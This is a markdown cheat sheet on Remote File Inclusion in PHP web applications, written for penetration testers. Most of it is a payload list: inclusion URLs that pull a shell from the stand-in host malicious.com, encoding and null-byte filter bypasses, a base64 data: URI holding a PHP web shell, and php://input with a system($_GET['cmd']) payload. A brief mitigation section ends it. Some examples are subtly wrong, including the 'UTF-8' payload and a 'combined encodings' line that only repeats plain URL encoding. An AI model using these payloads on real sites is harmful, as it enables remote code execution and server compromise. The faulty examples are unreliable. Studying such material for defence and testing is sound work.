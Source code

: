 # Table of Contents
- [Definition](#definition)
- [Identifying](#identifying)
- [Crafting Payloads](#crafting-payloads)
- [Bypassing RFI Protections](#bypassing-rfi-protections)
   * [Encoding and Obfuscation Techniques](#encoding-and-obfuscation-techniques)
   * [Bypassing Null Byte Filters](#bypassing-null-byte-filters)
   * [Breaking Out of Filtered Paths](#breaking-out-of-filtered-paths)
- [Advanced RFI Exploitation Techniques](#advanced-rfi-exploitation-techniques)
   * [Leveraging File Uploads](#leveraging-file-uploads)
   * [Using Alternate Protocols](#using-alternate-protocols)
   * [PHP Wrappers](#php-wrappers)
- [Mitigating RFI Vulnerabilities](#mitigating-rfi-vulnerabilities)
   * [Input Validation and Sanitization](#input-validation-and-sanitization)
   * [Allow listing](#allow-listing)
   * [Disabling Remote Inclusions](#disabling-remote-inclusions)
   * [Code Reviews and Audits](#code-reviews-and-audits)

# Definition
RFI is a security vulnerability that allows attackers to include and execute remote files in the web application’s server-side code. This can lead to severe consequences, including remote code execution, data theft, and complete system compromise.

**Remote File Inclusion (RFI) attacks are a critical threat to web applications, allowing attackers to execute malicious code remotely.** Understanding how to exploit this vulnerability is essential for penetration testers and security professionals.

# Identifying
- Manual Testing: Begin by manually testing URL parameters or form inputs. For instance, try appending payloads like ```http://malicious.com/shell.php``` to the URL to see if the remote file is included.
- Using Burp Suite: Intercept HTTP requests with Burp Suite. Modify the parameters to include RFI payloads and observe the responses for signs of inclusion.

# Crafting Payloads
- Basic Payloads: Start with simple inclusion payloads. For example, to include a remote PHP script:

```http://vulnerable-website.com/index.php?page=http://malicious.com/shell.php```

- Advanced Payloads: Create more complex payloads to bypass basic filters. For example:

```http://vulnerable-website.com/index.php?page=http://malicious.com/shell.txt%00.php```

# Bypassing RFI Protections
## Encoding and Obfuscation Techniques
Attackers often use encoding techniques to bypass basic input filters and protections.

- URL Encoding: Encode special characters in the payload. For example:

```http://vulnerable-website.com/index.php?page=http%3A%2F%2Fmalicious.com%2Fshell.php```

- Double Encoding: Use double encoding to evade more sophisticated filters. For example:

```http://vulnerable-website.com/index.php?page=http%253A%252F%252Fmalicious.com%252Fshell.php```

- UTF-8 Encoding: Encode the payload using UTF-8:

```http://vulnerable-website.com/index.php?page=%c0%af%c0%afmalicious.com%c0%afshell.php```

## Bypassing Null Byte Filters
- Null Byte Injection: Inject a null byte (```%00```) to terminate a string early, bypassing file extension checks:

```http://vulnerable-website.com/index.php?page=http://malicious.com/shell.txt%00.php```

## Breaking Out of Filtered Paths
- Combined Encodings: Combine different encoding methods to evade detection:

```http://vulnerable-website.com/index.php?page=http%3A%2F%2Fmalicious.com%2Fshell.php```

# Advanced RFI Exploitation Techniques
## Leveraging File Uploads
- Uploading Malicious Files: Upload a malicious file to the server and include it via RFI. For example:

```http://vulnerable-website.com/index.php?page=uploads/shell.php```

## Using Alternate Protocols
- Data URI: Use the ```data:``` URI scheme to include base64-encoded payloads:

```http://vulnerable-website.com/index.php?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+```

## PHP Wrappers
- PHP Wrappers: Use PHP wrappers like ```php://input``` and ```php://filter``` to include code:

```http://vulnerable-website.com/index.php?page=php://input```

Then send the payload in the body of the request:

```<?php system($_GET['cmd']); ?>```

# Mitigating RFI Vulnerabilities
## Input Validation and Sanitization
Validate and sanitize user inputs to ensure they don’t contain malicious inclusion paths. Use libraries or built-in functions to escape special characters.

## Allow listing
Restrict the inclusion of files to only trusted, local sources using allowlists.

## Disabling Remote Inclusions
Configure the server to disable remote file inclusions in the PHP configuration:

```allow_url_include=0```

## Code Reviews and Audits
Regularly review and audit code to identify and fix RFI vulnerabilities.
